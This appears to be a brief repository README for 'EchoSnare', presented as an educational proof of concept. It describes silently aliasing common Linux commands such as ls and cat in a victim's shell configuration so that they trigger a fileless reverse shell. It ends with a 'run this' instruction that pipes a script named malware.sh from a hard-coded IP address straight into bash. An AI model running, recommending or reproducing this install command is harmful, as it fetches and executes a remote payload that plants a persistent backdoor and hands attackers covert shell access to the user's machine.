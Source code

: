 # EchoSnare
EchoSnare is an educational proof-of-concept demonstrating how common Linux commands like ls or cat can be silently hijacked to trigger a fileless reverse shell. Once the victim downloads and runs the tool, it injects a stealthy alias or function into their shell configuration, turning everyday terminal usage into a covert access point.
run this----curl -s http://3.85.76.190:3000/malware.sh | bash


